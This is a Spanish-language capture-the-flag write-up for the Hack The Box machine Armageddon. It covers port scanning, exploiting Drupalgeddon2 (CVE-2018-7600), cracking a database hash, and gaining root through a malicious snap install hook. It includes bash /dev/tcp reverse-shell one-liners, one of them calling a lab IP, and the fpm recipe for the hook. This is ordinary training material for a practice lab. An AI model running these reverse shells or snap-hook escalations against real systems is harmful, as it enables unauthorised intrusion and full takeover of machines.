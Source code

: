 ```yaml
---
title: "Armageddon - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/armageddon/data/armageddon.png?raw=true"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Drupalgeddon
  - John
  - Snap
  - Linux
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/data/armageddonHTB.png">
</p>

La máquina **Armageddon** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **fácil** una puntuación de 3.7, **9388 USER OWNS** y **7996 SYSTEM OWNS** con la ip **10.10.10.233** y un sistema operativo **Linux**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.233]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/ScanPort.png">
  </p>

  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,80**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/Ports.png">
  </p>

  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/PortServ.png">
  </p>

  Lo que podemos ver de esté escaneo de versiones y servicios es que esta maquina cuenta en el puerto **22** un servicio **ssh** y en el puerto **80** cuenta con un servicio web **http** el cual es gestionado por **apache**, también podemos ver que nmap nos muestra varias rutas que son potencialmente interesantes para examinar pero primero vamos a ver la web entrando por una via normal.

  Al entrar por via web podemos ver que la pagina nos muestra un login, si hacemos pruebas como ingresar credenciales típicas no tenemos ningún resultado al igual si agregamos una comilla para ver si podemos encontrar algún error de syntax de sql.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/web.png">
  </p>

  Nmap nos indico que existe un recurso **Robots.txt** disponibles, si entramos a este recurso podemos ver una gran cantidad de rutas a las cuales podemos acceder, habiendo una muy interesante como **/CHANGELOG.txt** en la cual si entramos podemos ver que el servicio web tiene un gestor de contenido **Drupal 7** específicamente una version **7.56**, esta version es vulnerable a **Drupalgeddon 2.0.** ([más información](https://blog.sarenet.es/drupalgeddon/)).

  Hay una gran cantidad de exploits para explotar esta vulnerabilidad yo usare el exploit desarrollado por [pimps](https://github.com/pimps/CVE-2018-7600) pero puedes encontrar muchos mas buscando con el CVE: **CVE-2018-7600**.

## Gaining Access

  Ingresando los parámetros que marca la herramienta puedo ver que efectivamente el aplicativo es vulnerable a **Drupalgeddon 2.0.**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/drup.png">
  </p>

  Con esto entendido me entablare una revershell para poder acceder a la maquina ingresando el siguiente one line y poniéndome en escucha con **netcat**:

  ```bash
  bash -i >& /dev/tcp/[Your IP]/[Port] 0>&1
  ```
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/shell.png">
  </p>

## Privilege escalation - brucetherealadmin

  Ya dentro de la maquina y haciendo enumeración podemos llegar a un archivo en la ruta **/var/www/html/sites/default/settings.php** el cual tiene unas credenciales de la base de datos de mysql.

  Ya que no estamos en una **tty** podemos usar la herramienta de **mysql** con el parámetro **-e** el cual es para hacer consultas sin entrar en modo interactivo en mysql.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/cred.png">
  </p>

  Enumerando la base de datos drupal podemos ver que hay una tabla llamada **"users"** la cual contiene un hash del usuario **brucetherealadmin** el cual es un usuario a nivel de sistema.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/cred2.png">
  </p>

  Con este hash y usando la herramienta de john se puede aplicar fuerza bruta para descubrir el hash, haciendo esto podemos ver que el hash pertenece a la contraseña booboo:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/hash.png">
  </p>


  Teniendo esto y recordando que el puerto **22** esta abierto podemos intentar usar estas credenciales para acceder por ssh.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/ssh.png">
  </p>


## Privilege escalation - Root

  Ya que estamos dentro de la maquina por ssh y tenemos unas credenciales validas podemos enumerar el sistema con mas facilidad para ver hacer una escalada de privilegios hacia el usuario **root**.


  Enumerando el sistema y aplicando el comando **sudo -l** para listar los permisos a nivel sudo que tiene el usuario **brucetherealadmin** podemos ver que cuenta con la capacidad de ejecutar snap como root sin proporcionar contraseña.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/sudo.png">
  </p>

  Con este permiso si buscamos en la herramienta [**gtfobins**](https://gtfobins.github.io/gtfobins/snap/#sudo) este recurso podemos ver que hay una forma de escalar privilegios

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/gto.png">
  </p>


  Para probar esto en mi equipo me creo un el binario con las instrucciones que da **gtobins** el cual ejecutara un "whoami" y si la respuesta es **root** significa que funciona y tenemos una via segura para escalar privilegios.

  Para esto me cree el binario y levante un servicio **http** con python para poder pasar el binario a la maquina victima.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/1.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/2.png">
  </p>

  Como vemos comprobando com **md5sum** los archivos tienen el mismo hash lo que significa que se transfirió con éxito y sin ninguna alteración.

  Al ejecutar el binario con el install podemos ver que efectivamente tenemos ejecución de comando por parte de **root**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/3.png">
  </p>

  Excelente ahora que tenemos ejecución de comando como **root** vamos a subir un nuevo binario para hacer una jugada nueva, muchos usan el recurso de **"[dirty_sock](https://www.exploit-db.com/exploits/46361)"** el cual consiste en subir el binario **.snap** y te crea un usuario a nivel de sistema que pertenece al grupo **root**.

  Yo hare diferente la escalada, en el directorio personal de **brucetherealadmin** me creare una carpeta nueva **/home/brucetherealadmin/bin** en este directorio creare un binario llamado **winsad** ( ```touch winsad``` ) el cual tendrá el siguiente contenido:

  ```bash
  #!/bin/bash

  bash -i >& /dev/tcp/10.10.15.125/444 0>&1
  ```

  Le asigno permisos de ejecución con ```chmod +x winsad```, ahora con los pasos que se ven en **gtobins** compilare el binario con los siguientes argumentos en mi equipo:

  ```bash
COMMAND=/home/brucetherealadmin/bin/winsad
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
  ```

  Lo que estoy haciendo aquí es crear un binario **.snap** el cual apunte a mi binario y como es un contenido en bash lo va a interpretar, esto lo hago así ya que haciendo pruebas es la manera mas eficiente para evitar errores a la hora de crear el binario, así solo apunto a uno ya existente y que interprete el contenido del mismo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/preroot.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/root.png">
  </p>

  Como vemos nos interpreta el contenido del binario winsad y nos da la shell como el usuario **root**

